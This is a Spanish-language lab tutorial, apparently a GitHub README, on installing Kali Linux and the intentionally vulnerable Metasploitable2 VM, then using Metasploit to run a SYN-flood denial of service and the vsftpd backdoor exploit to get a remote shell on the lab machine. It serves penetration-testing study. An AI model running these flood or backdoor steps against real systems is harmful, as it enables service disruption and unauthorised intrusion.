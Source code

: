 # Metasploitable 2
**Contenido**

        - Instalación de Kali 
        - Instalación de Metasploitable2
        - Practicas
                - Ataque DDoS
                - Ataque mediante vsftps

## Preparación Kali Linux y Metasploitable2
##### Preparando Kali Linux

El virtualizador que usaremos es VirtualBox. Lo primero que haremos será irnos a la página de Kali Linux y descargar el archivo OVA:

https://kali.download/virtual-images/kali-2021.4/kali-linux-2021.4-virtualbox-amd64.7z

![imagen](https://user-images.githubusercontent.com/80277545/146815893-0627a255-e3ed-46dd-94da-05bb3cbbc0b9.png)

Una vez descargado, debemos descomprimirlo y obtener el archivo .OVA:

![imagen](https://user-images.githubusercontent.com/80277545/146817611-3e4ed7ef-879d-4d8a-90b9-f7094e341e17.png)

Ahora abrimos VirtualBox e importamos el archivo .OVA:

![imagen](https://user-images.githubusercontent.com/80277545/146817830-dc69f517-8c4a-42bb-a169-c9d594e9fcab.png)

Una vez instalado tendremos que añadirle otra tarjeta de red, esto lo haremos yendo a la configuración de la máquina > Red > Adaptador2. Lo habilitaremos y añadiremos el "Adaptador sólo-anfritión": 

![imagen](https://user-images.githubusercontent.com/80277545/146818821-d302eb96-32f3-4bef-bd4b-d3835508bbb4.png)

( En caso de no tener el "Adaptador sólo-anfritión", podemos añadirlo desde "archivo" > "Administrador de red anfritión" > Crear ) 

![imagen](https://user-images.githubusercontent.com/80277545/146823922-7d4c0b59-c2fa-495a-b5b4-ab6d452c7bec.png)


La ventaja de hacerlo con este método es que no tenemos que "instalar" desde cero Kali Linux. Una vez finalizado, al iniciar el sistema directamente nos pedirá un usuario y una contraseña.

        usuario : kali
        contraseña : kali

##### Preparando Metasploitable2

Ahora descargaremos Metasploitable2 desde el siguiente enlace, para esto tendremos que rellenar este formulario (pueden ser datos falsos) y descargar el archivo comprimido: 

https://information.rapid7.com/download-metasploitable-2017.html

![imagen](https://user-images.githubusercontent.com/80277545/146821125-89d27534-9f43-406a-8b3a-314ef2dc1369.png)

Una vez descargado y descomprimido nos quedarán los siguientes archivos: 

![imagen](https://user-images.githubusercontent.com/80277545/146821415-49dc4747-6175-4f95-94b8-71931b535dda.png)


Ahora crearemos una nueva máquina virtual con las siguientes características:

![imagen](https://user-images.githubusercontent.com/80277545/146820065-5e61817b-266c-44bc-ac2e-54463689d62b.png)

Daremos en "Next" y dejaremos la memoria RAM asignada en "1024".

Posteriormente crearemos un "Disco duro virtual" :

![imagen](https://user-images.githubusercontent.com/80277545/146820292-ee85fe7f-1d16-438a-b7fe-257227093c3a.png)

De tipo "VDI" y "Reservado dinámicamente" de "10GB".

Una vez creada, nos vamos a "Configuración", "Almacenamiento" y eliminaremos "Metasploitable 2.vdi":

![imagen](https://user-images.githubusercontent.com/80277545/146822046-6d53e649-0459-4f13-8050-5ac2e6a94bbe.png)

Ahora añadiremos el nuevo disco que está dentro de los archivos que descargamos de Metasploitable2:

![imagen](https://user-images.githubusercontent.com/80277545/146822386-a1066bf4-722c-4c69-bc52-99acf64e9629.png)

A esta máquina también le cambiaremos el adaptador red "NAT" a "Adaptador sólo-anfritión":

![imagen](https://user-images.githubusercontent.com/80277545/146823149-188a2bb7-94d2-4540-987f-c3e012b0bd9c.png)


Ahora iniciamos la máquina y nos tendría que salir la siguiente interfaz: 

![imagen](https://user-images.githubusercontent.com/80277545/146822770-0af677c1-8d1f-4c32-bf87-cebd1f3caf5b.png)

El usuario y contraseña es: 

                Usuario : msfadmin
                Contraseña : msfadmin

Una vez dentro ejectuaremos "ifconfig" para saber la IP del eth1:

![imagen](https://user-images.githubusercontent.com/80277545/146823247-d17b9f87-11bf-4d0e-858f-0ba882793b00.png)


## Comprobando conectividad

Una vez estamos dentro de las dos máquinas, desde la de Kali vamos a realizar un ping para comprobar que tiene conectividad. En mi caso, la IP de Metasploitable2 es la 192.168.56.105:

           ping 192.168.56.105

![imagen](https://user-images.githubusercontent.com/80277545/146823628-db34255d-90fd-4beb-a9b3-e0b035b85b73.png)

Si resuelve igual que en la imagen anterior, significa que todo está instalado correctamente. 

Podemos ingresar a la página del servidor si desde nuestro Kali Linux introducimos la IP del mismo:

![imagen](https://user-images.githubusercontent.com/80277545/146824329-c54b8f79-1911-4c92-9383-7ea58c62a5ee.png)

# PRACTICAS: 
## Realizando un ataque DDoS 

( El fin de esta práctica es educativo )

Desde nuestro Kali, vamos a usar un exploit de Metasploit (recordemos que Metasploit simplemente es como una librería de exploits, una librería de herramientas). 

Abriremos una terminal y ejecutaremos:

        sudo -i 
        

Iniciaremos Metasploit en modo superusuario: 

        sudo msfdb init && msfconsole
        
![imagen](https://user-images.githubusercontent.com/80277545/146827302-48d76b0a-6696-4606-b135-684022cd46e2.png)


Una vez dentro de Metasploit buscaremos la herramienta/exploit synflood , esto lo haremos con el parámetro "search"

        search dos synflood
        
![imagen](https://user-images.githubusercontent.com/80277545/146827368-3bce3c42-0b3b-46d1-893d-85a5c8f08aaf.png)


Seleccionaremos la opción "/auxiliary/dos/tcp/synflood" , esto lo haremos con: 

         use 0 

Una vez seleccionado, miraremos los paramtros de la herramienta con "info":

        info
        
![imagen](https://user-images.githubusercontent.com/80277545/146827466-4088f6be-5251-4c56-9531-42ceb6b87c1c.png)

A continuación pondremos la IP de la maquina a atacar, en este caso será la 192.168.56.105 y ejecutaremos un run:

        set rhosts 192.168.56.105
        run

Al instante se inciará el ataque DDoS:

![imagen](https://user-images.githubusercontent.com/80277545/146829014-d9ccfcff-4ecb-4bde-bb84-2cfe65ba03c8.png)


Cuando se esté realizando el ataque, al recargar la página en el navegador, no nos resolverá la petición y se quedará cargando. Esto significará que el servidor está siendo atacado y no puede responder a todas las solicitudes. 

## Realizando inclusión por FTP

A continuación, se mostrará como abrir una backdoor a travéz del puerto 21 del Server. 

Lo primero que haremos es abrir de nuevo el cliente de Metasploit:

          msfconsole

![imagen](https://user-images.githubusercontent.com/80277545/147389766-52816995-29e9-4c44-9e38-03a9c66c83dc.png)

Buscaremos la herramienta que nos permitirá ejecutar el backdoor:

           search vsftp 
           use 0 
           
![imagen](https://user-images.githubusercontent.com/80277545/147389792-096c37fe-b0e6-4c08-a4ce-21993f3dde75.png)

Podemos escribir _info_ para ver todas las opciones del exploit:

![imagen](https://user-images.githubusercontent.com/80277545/147389911-6a23f96a-eca6-4cbf-8f3f-db108e0e943f.png)

A continuación, estableceremos la IP de Metasplotable2:
![imagen](https://user-images.githubusercontent.com/80277545/147389941-d6aecc16-48d3-45df-afd9-3451c3e74ac7.png)
![imagen](https://user-images.githubusercontent.com/80277545/147389960-85db6b2c-72ed-4434-9639-f454f0dd733c.png)

Ahora, simplemente ejecutaremos:

            RUN
            
![imagen](https://user-images.githubusercontent.com/80277545/147389974-b8ebcaa8-db39-4138-8f5f-50a937a74add.png)

En caso de no salir al primer "RUN", tan solo hay que volverlo a ejecutar:

![imagen](https://user-images.githubusercontent.com/80277545/147389986-cd5e4736-19f9-48ef-b542-913fba25fb33.png)

Ahora, tendremos una shell a modo backdoor. Por ejemplo ejecutare un _whoami_ para saber el usuario y un _pwd_ para saber la ruta en la que estoy ubicado:

![imagen](https://user-images.githubusercontent.com/80277545/147390019-e2931a76-fc81-4986-8009-90199c74236b.png)

Y con esto, concluimos el backdoor y la intrusión. 

# Conclusión

Con esto finalizamos la intalación y la practica de Metasploitable2 y Kali Linux, lo suyo sería, a partir de aquí, explorar que posibilidades tenemos para adentrarnos más en el mundo del pentesting. 





